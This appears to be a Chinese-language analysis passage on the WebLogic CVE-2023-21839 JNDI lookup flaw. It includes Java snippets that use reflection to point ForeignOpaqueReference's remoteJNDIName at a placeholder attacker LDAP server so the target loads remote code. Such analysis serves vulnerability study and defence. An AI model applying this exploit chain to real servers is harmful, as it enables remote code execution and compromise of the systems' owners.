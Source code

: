 ​	RMI允许在不同的Java虚拟机（JVM）之间进行通信，使得一个Java程序可以调用另一个Java程序中的方法



<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202403041730528.png" alt="RMI实现过程" style="zoom:50%;" />

​	

​	Weblogic RMI默认使用的传输协议是T3，无论是Java RMI还是Weblogic RMI，都需要使用JNDI调用远端的RMI服务。

​	JNDI的查找一般使用lookup()方法。常规Weblogic漏洞在反序列化时触发，流量中的序列化数据没有校验完全，恶意数据被反序列化出Class对象，并调用构造函数，若构造函数里有关于命令执行的指令，远程代码执行即可实现。而本次分析的新漏洞触发在反序列化后的lookup()调用中。

​	**<u>CVE-2023-21839漏洞原理</u>**：绑定远程对象到服务端JNDI服务后，在客户端执行lookup操作时，如果远程对象为ForeignOpaqueReference，客户端查找时会触发服务端调用ForeignOpaqueReference.getReferent方法，该方法会执行lookup查找，通过可控remoteJNDIName参数构造LDAP服务器可以实现远程命令执行，流程图如下👇🏻

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202403041730529.png" alt="CVE-2023-21839漏洞原理流程图" style="zoom:50%;" />

​	

### 2.2 源码RCE利用链

​	weblogic.deployment.jms.ForeignOpaqueReference类：继承于OpaqueReference接口，该接口用于在不同的JVM之间通过命名服务传递对象引用。当对象实现此接口，通过lookup检索WLContext时，命名服务会调用getReferent() 返回对象。

​	**漏洞入口ForeignOpaqueReference.getReferent**方法源码：

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202403041730530.png" alt="漏洞入口getReferent方法部分源码" style="zoom:50%;" />



​	1）首先检查JNDI环境，如果没有设置JNDI环境变量，则使用默认的InitialContext对象创建context。否则，则使用指定的this.jndiEnvironment通过InitialContext对象创建context，并检查java.naming.factory.initial属性：该属性指定JNDI实现的工厂类。jndiEnvironment是private属性，可通过反射赋值。

​	2）retVal = context.lookup(evalMacros(this.remoteJNDIName)); 通过远程JNDI名称查找并返回一个对象，然后将其赋值给变量retVal。remoteJNDIName是private属性，**可通过反射赋值**



**<u>那么构造漏洞利用代码：</u>**

​	1）创建InitialContext对象，配置JNDI的接口连接Weblogic服务器的环境属性：指定目标服务器的URL地址和初始上下文工厂的实现类。

```
Hashtable env = new Hashtable();
env.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
env.put(Context.PROVIDER_URL, url);
InitialContext c = new InitialContext(env);
```

​	2）利用反射赋值ForeignOpaqueReference对象中的jndiEnvironment和remoteJNDIName为LDAP服务器。

```
env.put(Context.INITIAL_CONTEXT_FACTORY,"com.sun.jndi.rmi.registry.RegistryContextFactory"); //设置java.naming.factory.initial属性
Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");
jndiEnvironment.setAccessible(true);
jndiEnvironment.set(f, env);  //jndiEnvironment赋值
Field remoteJNDIName = ForeignOpaqueReference.class.getDeclaredField ("remoteJNDIName");
remoteJNDIName.setAccessible(true);
String ldap = "ldap://xxx ";
remoteJNDIName.set(f, ldap); //remoteJNDIName赋值
```

